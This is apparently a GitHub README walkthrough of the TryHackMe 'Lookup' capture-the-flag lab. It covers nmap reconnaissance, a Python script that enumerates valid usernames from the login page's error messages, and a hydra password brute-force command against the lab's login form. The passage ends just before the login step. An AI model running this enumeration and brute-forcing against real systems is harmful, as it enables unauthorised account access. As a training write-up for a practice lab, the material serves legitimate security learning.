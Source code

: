 ![intro](https://github.com/user-attachments/assets/d3499a97-8b5a-4005-8d02-76492450fbc6)
![intro2](https://github.com/user-attachments/assets/5526b3d0-e823-40b4-b8f0-eb83ba319a99)

# tryhackme-Lookup

This is a walkthrough for the tryhackme CTF Lookup. I will not provide any flags or passwords as this is intended to be used as a guide. 

## Scanning/Reconnaissance

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -sV -sC -A -v $ip -oN nmap.txt
```

Command break down:

-sV

Service Version Detection: This option enables version detection, which attempts to determine the version of the software running on open ports. For example, it might identify an HTTP server as Apache with a specific version.
-sC

Default Scripts: This option runs a collection of default NSE (Nmap Scripting Engine) scripts that are commonly useful. These scripts perform various functions like checking for vulnerabilities, gathering additional information, and identifying open services. They’re a good starting point for gathering basic information about a host.
-A

Aggressive Scan: This option enables several scans at once. It combines OS detection (-O), version detection (-sV), script scanning (-sC), and traceroute (--traceroute). It’s useful for a comprehensive scan but can be intrusive and time-consuming.
-v

Verbose Mode: Enables verbose output, which provides more detailed information about the scan’s progress and results.
$ip

Target IP: This is a placeholder for the target IP address you want to scan. In practice, replace $ip with the actual IP of the machine you are targeting.
-oN

Output in Normal Format: This option saves the scan results in a plain text file format. After -oN, specify a filename where you want to store the scan.

![nmap](https://github.com/user-attachments/assets/aa56659a-06a8-4529-92e0-43f9d8b2263b)

This scan reveals two open ports: 22, and 80. Let's check out the Apache webserver on port 80.

![trouble](https://github.com/user-attachments/assets/a27b70c4-574b-4235-ac56-7e669e835b9f)

The url populates as lookup.thm but the site can't be reached. Let's append the ip and lookup.thm to our /etc/hosts file.

![etc_hosts](https://github.com/user-attachments/assets/4461e87f-c2c9-42a1-8f4a-0dc73e7d113f)

Now, when we refresh the page, we are presented with a login page:

![login](https://github.com/user-attachments/assets/041b52b3-515b-4b6f-90e8-869505aad06c)

At first, I tried to log in with some common default credentials, admin:admin. There was a message that appears saying wrong password. 

![wrongpw](https://github.com/user-attachments/assets/ec109c9e-ed8e-4309-b667-272dcc0f166b)

This made me think that the login page will display errors specific to the username being correct or not. To test this theory I attempted to log in with bob:admin, and this time the error states, Wrong username or password.

![wrongun](https://github.com/user-attachments/assets/f8350a30-71a1-4314-a471-064b22f3e7aa)

To find out the correct user names for login I used this python script against the login:
``` bash
import requests

# Target URL
url = "http://lookup.thm/login.php"

# Define path to usernames
file_path = "/usr/share/seclists/Usernames/Names/names.txt"

try:
    with open(file_path, "r") as file:
        for line in file:
            username = line.strip()
            if not username:
                continue  # Skip empty lines

            # Prepare the POST data
            data = {
                "username": username,
                "password": "password"  # Fixed password for testing (note the correction here)
            }

            # Send the POST request
            response = requests.post(url, data=data)

            # Check the response content
            if "Wrong password" in response.text:
                print(f"Username found: {username}")
            elif "wrong username" in response.text:
                continue  # Silent continuation for wrong username

except FileNotFoundError:
    print(f"Error: The file {file_path} does not exist.")
except requests.RequestException as e:
    print(f"Error: An HTTP request error occurred: {e}")
```

This quickly reveals the two correct usernames:

![usernames](https://github.com/user-attachments/assets/372288dd-5cb0-41f1-992a-a837f8e8a90e)

Then I used burp suite repeater to caprute the login request and response to craft a hydra command.

![repeater](https://github.com/user-attachments/assets/2c9bf332-855c-4380-b8ae-0075ddec7767)

I created a users.txt file containing admin and jose.

Then ran this hydra command:
``` bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password. Please try again." -IV -t 64
```
I quickly reveals jose's simple password. We will now log into the login panel.
